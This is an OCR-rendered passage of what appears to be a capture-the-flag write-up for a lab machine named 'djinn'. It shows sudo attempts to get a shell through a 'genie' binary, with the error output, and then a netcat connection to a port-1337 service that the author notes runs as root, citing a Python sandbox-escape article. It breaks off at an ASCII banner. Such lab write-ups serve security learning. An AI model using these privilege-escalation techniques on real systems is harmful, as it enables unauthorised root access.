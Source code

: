 \-h, --help show this help message and exit

\-g, --god pass the wish to god

\-p SHELL, --shell SHELL

Gives you shell

\-e EXEC, --exec EXEC execute command

Attempt is made to escalate with genie binary.

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/bash"

sudo -u sam /usr/bin/genie -p "/bin/bash"

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/sh"

sudo -u sam /usr/bin/genie -p "/bin/sh"

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ genie whoami -p /bin/bash -e /bin/bash

genie whoami -p /bin/bash -e /bin/bash

nitish\@djinn:/opt/80\$ sudo -u sam genie -p "/bin/bash" -g wish

sudo -u sam genie -p "/bin/bash" -g wish

We've added your wish to our records.

Continue praying!!

\#

As I could not get far with the genie executable I tried searching elsewhere.
Considering that the app.py was written in python, I thought that port 1337 app

might be written in python too. After a little bit of digging I found this
article,
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/ .

First, start with something easy - whoami, as it turns out the program was
running with root privileges.

lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|
